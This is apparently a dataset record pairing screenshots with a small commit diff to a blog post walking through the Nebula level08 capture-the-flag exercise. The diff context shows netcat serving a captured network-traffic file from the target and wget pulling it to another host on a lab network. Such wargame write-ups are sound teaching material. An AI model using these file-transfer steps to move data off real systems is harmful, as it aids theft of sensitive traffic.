

Before and after one commit to n33m0/n33m0.github.io, a Jekyll site: the page built from _posts/2015-04-04-world_readable_files_strike_again.md, in a window 1280 px wide and 900 px high, scrolled down 1733 px. Shown: the part 263-576 px from the top of the window, without its empty margins (258-1011 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
Nebula08 smallfix

```diff
--- a/_posts/2015-04-04-world_readable_files_strike_again.md
+++ b/_posts/2015-04-04-world_readable_files_strike_again.md
@@ -32,7 +32,7 @@ level08@nebula:/home/flag08$ nc -l 8888 < ./capture.pcap
 # And then on the outer host:
 nobody@home$ wget -O capture.pcap 192.168.56.102:8888
 {% endhighlight %}
-Checking out on the wireshark:
+Secondly, check out on the wireshark:
 <center>
 	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_1.png">
 </center>
```
